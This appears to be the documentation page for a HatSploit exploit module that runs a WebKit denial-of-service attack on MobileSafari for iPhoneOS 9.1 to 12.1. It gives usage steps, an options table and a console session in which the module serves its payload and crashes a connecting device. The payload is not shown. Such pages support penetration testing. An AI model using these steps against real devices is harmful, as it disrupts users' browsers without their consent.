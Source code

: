# `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description                |
|-----------|-----------------------|----------|----------------------------|
| `LHOST`   | `self.tcp.get_local_host()` | yes      | Local host.                |
| `LPORT`   | 80                    | yes      | Local port.                |
| `FOREVER` | no                    | no       | Start http server forever. |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

**FOREVER**

Variable that contains type of http server.

## Scenarios

```
(hsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option     Value           Required    Description    
    ------     -----           --------    -----------    
    LHOST      192.168.1.95    yes         Local host.    
    LPORT      80              yes         Local port.
    FOREVER    no              no          Start http server forever.
 
(hsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
(hsf: exploit: mobile_safari_app/webkit_filter_dos)>
```
